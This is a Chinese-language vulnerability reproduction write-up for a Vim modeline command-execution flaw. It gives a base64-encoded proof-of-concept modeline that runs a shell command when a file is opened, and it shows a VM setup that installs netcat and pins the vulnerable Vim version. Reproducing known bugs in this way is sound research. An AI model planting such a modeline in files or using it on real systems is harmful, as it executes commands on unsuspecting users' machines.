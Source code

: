     ```

    

#### b.POC源码

```shell
$ echo "OiF1bmFtZSAtYXx8IiB2aTpmZW46ZmRtPWV4cHI6ZmRlPWFzc2VydF9mYWlscygic291cmNlXCFcIFwlIik6ZmRsPTA6ZmR0PSIK" | base64 --decode > poc.txt
$ cat poc.txt 
:!uname -a||" vi:fen:fdm=expr:fde=assert_fails("source\!\ \%"):fdl=0:fdt="
$vim poc.txt

```

#### c.复现步骤

- 环境搭建

  - 环境清单

    - 系统版本: Ubuntu-16.04.6 LTS (Xenial Xerus)
    - Vim版本: VIM - Vi IMproved 7.4 
    - Vim package 版本:  2:7.4.1689-3ubuntu1
    - 镜像下载地址: https://mirrors.tuna.tsinghua.edu.cn/ubuntu-releases/14.04.6/ubuntu-14.04.6-desktop-amd64.iso

  - 搭建步骤

    - 安装虚拟机

      ```shell
      #  创建虚拟机硬盘
      $ qemu-img create -f qcow2 ubuntu16.04.6.img 10G
      
      # 安装虚拟机
      $ qemu-system-x86_64  -m 2048 -hda ubuntu16.04.6.img -cdrom ./ubuntu-16.04.6-desktop-amd64.iso
      
      
      # 启动虚拟机
      $ qemu-system-x86_64 -m 2048  ubuntu16.04.6.img
      
      ```

    - 安装nc.traditional

      建立会话的方式很多，这一步只是为了演示exp需要。

      ```shell
      sudo apt-get install netcat-traditional
      ```

    - 安装含漏洞版本的Vim

      ```shell
      $ sudo apt-get install vim-runtime=2:7.4.1689-3ubuntu1
      $ sudo apt-get install vim-common=2:7.4.1689-3ubuntu1
      $ sudo apt-get install vim=2:7.4.1689-3ubuntu1
      ```
